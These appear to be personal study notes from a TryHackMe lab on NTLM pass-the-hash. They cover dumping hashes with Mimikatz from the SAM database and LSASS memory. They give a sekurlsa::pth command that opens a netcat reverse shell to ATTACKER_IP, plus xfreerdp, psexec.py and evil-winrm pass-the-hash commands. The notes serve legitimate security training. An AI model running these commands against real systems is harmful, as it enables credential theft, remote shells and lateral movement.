 # Alternate Authentication - NTLM

#### Alternate authentication material
- Any piece of data that can be used to access a Windows account without actually knowing a user's password itself  

## NTLM Authentication
### Pass-the-Hash
- Extract credentials from a host where we have attained admin privileges (using Mimikatz or similar tools)
- Retrieve clear-text passwords/hashes that can be easily cracked
- We may end up with non-crakced NTLM password hashes
- We can authenticate without requiring the clear-text password

Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can Pass-the-Hash and authenticate.  

To extract NTLM hashes, we can either use Mimikatz to read the local SAM or extract hashes from LSASS memory.
1. Extract NTLM hashes from local SAM database
- Extract hashes from local users on machine
- No domain user hashes will be available

![Alt text](<../../Images/Pass-the-hash Mimikatz.png>)

2. Extract NTLM hashes from LSASS memory
- Extract any NTLM hashes for local users and any domain users that have logged on to the machine

![Alt text](<../../Images/Pass-the-hash Mimikatz 2.png>)

- Use extracted hashes to perform Pass-the-Hash attack by using Mimikatz to inject an access token for the victim on a reverse shell

`mimikatz # token::revert`  
`mimikatz # sekurlsa::pth /userLbob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555`

- Used `token::revert` to re-establish our original token privileges (trying to pass-the-hash with an elevated token will not work)
- This would be the equivalent of using runas /netonly but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user

AttackBox  
`nc -lvp 5555`

Running `whoami` will show the original user we were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

### Pass-the-Hash using Linux

1) Connect to RDP using PtH  
`xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`  

2) Connect via psexec using PtH  
`psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`  

3) Connect to WinRM using PtH  
`evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASHES`